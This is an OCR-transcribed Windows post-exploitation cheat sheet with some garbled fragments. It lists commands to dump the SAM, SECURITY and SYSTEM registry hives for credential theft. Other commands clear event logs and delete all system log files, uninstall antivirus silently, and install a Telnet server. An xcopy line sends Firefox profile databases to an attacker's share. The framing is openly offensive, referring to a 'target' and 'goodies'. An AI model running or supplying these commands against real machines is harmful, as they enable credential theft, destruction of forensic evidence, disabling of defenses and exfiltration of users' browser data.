 wmic process get caption,executablepath,commandline

wmic process call create “process_name” (executes a program)

wmic process where name=”process_name” call terminate (terminates program)

wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size, volumeserialnumber (hard drive information)

wmic useraccount (usernames, sid, and various security related goodies)

wmic useraccount get /ALL

wmic share get /ALL (you can use ? for gets help ! )

wmic startup list full (this can be a huge list!!!)

wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about target)
Reg Command exit

#### reg

reg save HKLM\Security security.hive  (Save security hive to a file)

reg save HKLM\System system.hive (Save system hive to a file)

reg save HKLM\SAM sam.hive (Save sam to a file)

reg import [FileName ]

wevtutil el  (list logs)

wevtutil cl *LogName* (Clear specific lowbadming)

```
del %WINDIR%\*.log /a /s /q /f
```

#### Uninstalling Software “AntiVirus” (Non interactive)

wmic product get name /value (this gets software names)

wmic product where name="XXX" call uninstall /nointeractive (this uninstalls software)

#### Other  (to be sorted)

pkgmgr usefull  /iu :”Package”

pkgmgr usefull  /iu :”TelnetServer” (Install Telnet Service ...)

pkgmgr /iu:”TelnetClient” (Client )

rundll32.exe user32.dll, LockWorkStation (locks the screen -invasive-)

#### wscript.exe *script js/vbs*

#### cscript.exe *script js/vbs/c#*

#### xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box\firefox_funstuff
